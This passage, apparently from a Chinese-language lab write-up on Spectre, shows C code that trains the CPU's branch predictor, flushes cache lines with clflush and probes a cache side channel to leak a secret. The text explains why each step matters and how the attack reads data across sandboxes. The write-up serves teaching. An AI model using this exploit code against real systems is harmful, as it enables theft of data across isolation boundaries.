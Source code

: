 ```c
      temp = array[x * 4096 + DELTA];  
  }
}

int main() {
  int i;

  // FLUSH the probing array
  flushSideChannel();

  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {   
      victim(i);
  }

  // Exploit the out-of-order execution
  _mm_clflush(&size);
  for (i = 0; i < 256; i++)
      _mm_clflush(&array[i*4096 + DELTA]); 
  victim(97);  

  // RELOAD the probing array
  reloadSideChannel();

  return (0); 
}
```
![乱序执行实验](../img/spectre-outoforder.png)

这里重要的一点是，如果想让分支进入一个指定的路径，我们需要训练CPU，这样我们指定的一个分支就会变成预测的结果

如果把下面这行语句注释掉，重新执行，会无法找出秘密值：
```c
_mm_clflush(&size);
```
执行这行语句是为了确保没有被CPU缓存

上面这行不注释，victim(i)改成victim(i+20)，也会失败，因为这样把CPU训练成不执行分支了

## task4: 幽灵攻击

利用分支预测可以获取秘密值，秘密值可能是不同进程的数据，那是用硬件隔离机制来保护的。如果是同一个进程的数据，
往往利用软件的沙盒机制。获取不同进程的数据难度高很多，这里是演示在同一个进程中获取数据。  
浏览器中不同页面是用不同沙盒隔离开的，幽灵漏洞可以获取另一个页面的数据。  

